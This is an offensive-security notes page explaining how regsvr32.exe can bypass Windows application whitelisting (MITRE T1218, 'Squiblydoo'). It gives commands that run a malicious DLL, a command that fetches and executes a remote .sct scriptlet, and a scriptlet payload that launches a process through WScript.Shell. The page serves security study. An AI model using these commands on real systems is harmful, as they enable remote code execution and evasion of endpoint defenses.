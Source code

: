# RegSrv32

## Theory

Regsvr32 is a Microsoft command-line tool to register and unregister Dynamic Link Libraries (DLLs) in the Windows Registry. Besides its intended use, regsvr32.exe binary can also be used to execute arbitrary binaries and bypass the Windows Application Whitelisting.

Application Whitelisting is a Microsoft endpoint security feature that prevents malicious and unauthorized programs from executing in real-time. Application whitelisting is rule-based, where it specifies a list of approved applications or executable files that are allowed to be present and executed on an operating system.

## Practice

{% tabs %}
{% tab title="Regsvr32.exe" %}
```bash
#Execute dll
c:\Windows\System32\regsvr32.exe c:\Users\pwn\Downloads\malicious.dll

#Or
c:\Windows\System32\regsvr32.exe /s /n /u /i:http://example.com/file.sct Downloads\malicious.dll
```

With the .sct file as: 
```bash
#http://example.com/file.sct
<?XML version="1.0"?>
<scriptlet>
<registration
  progid="TESTING"
  classid="{A1112221-0000-0000-3000-000DA00DABFC}" >
  <script language="JScript">
    <![CDATA[
      var foo = new ActiveXObject("WScript.Shell").Run("calc.exe"); 
    ]]>
</script>
</registration>
</scriptlet>
```

The MITRE ATT\&CK framework refers to this technique as [Signed Binary Proxy Execution (T1218)](https://attack.mitre.org/techniques/T1218/)
{% endtab %}
{% endtabs %}

## References

{% embed url="https://tryhackme.com/room/livingofftheland" %}
{% embed url="https://www.ired.team/offensive-security/code-execution/t1117-regsvr32-aka-squiblydoo" %}

